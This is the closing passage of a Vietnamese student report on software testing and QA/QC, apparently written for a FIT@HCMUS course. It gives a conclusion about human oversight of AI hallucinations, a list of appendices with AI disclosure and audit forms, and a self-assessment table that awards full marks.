Tóm lại, bài học kinh nghiệm tôi rút ra là AI chỉ đóng vai trò trợ lý tăng hiệu suất ban đầu. Trong kiểm thử phần mềm, sự cẩn trọng và giám sát độc lập của con người vẫn là yếu tố quyết định hàng đầu để phát hiện lỗi ảo giác của AI và đảm bảo tính chính xác kỹ thuật tuyệt đối.

---

## PHỤ LỤC

- **Phụ lục A - Nhật ký Prompt (Prompt Log):** [20260603_Gemini_prompt.md](../assets/prompt_logs/20260603_Gemini_prompt.md)
- **Phụ lục B - Báo cáo Kiểm toán AI (AI Audit Report - AI-02):** [[AI-02] - FIT@HCMUS - AI Audit Report_En.docx.md](../ai_declarations/%5BAI-02%5D%20-%20FIT@HCMUS%20-%20AI%20Audit%20Report_En.docx.md)
- **Phụ lục C - Khai báo Sử dụng AI (AI Disclosure Form - AI-03):** [[AI-03] - FIT@HCMUS - AI Disclosure Form_En.docx.md](../ai_declarations/%5BAI-03%5D%20-%20FIT@HCMUS%20-%20AI%20Disclosure%20Form_En.docx.md)
- **Phụ lục D - Danh mục Bảo mật và Sử dụng AI có Trách nhiệm (AI Privacy Checklist - AI-05):** [[AI-05] - FIT@HCMUS - AI Privacy Checklist_En.docx.md](../ai_declarations/%5BAI-05%5D%20-%20FIT@HCMUS%20-%20AI%20Privacy%20Checklist_En.docx.md)
- **Phụ lục E - Sơ đồ tư duy (Mindmap) Vai trò QA/QC & ISTQB:** [mindmap.md](mindmap.md)

---

## TỰ ĐÁNH GIÁ (Self-Assessment)

| STT      | Nội dung                                                                                  | Thang điểm | Điểm tự đánh giá |
| :------- | :---------------------------------------------------------------------------------------- | :--------: | :--------------: |
| 1        | Yêu cầu 1: QA/QC Job Market 2026+ (10 tin tuyển dụng + phân tích ảnh hưởng AI)            |     40     |        40        |
| 2        | Yêu cầu 2: 20 Software Defects 2022-2026 (7 lỗi AI + 13 lỗi truyền thống + 20 ảo giác AI) |     20     |        20        |
| 3        | Yêu cầu 3: Physical-product Test Design (15 TCs + 5 lỗi + 3 edge cases AI sót + 5 videos) |     25     |        25        |
| AI 1     | Đính kèm phụ lục AI-02 AI Audit Report đầy đủ                                             |     8      |        8         |
| AI 2     | Viết AI Critique đầy đủ + đính kèm biểu mẫu AI-03                                         |     4      |        4         |
| AI 3     | Đính kèm biểu mẫu AI-05 + Không dùng AI cho các sản phẩm cấm                              |     3      |        3         |
| **TỔNG** |                                                                                           |  **100**   |     **100**      |
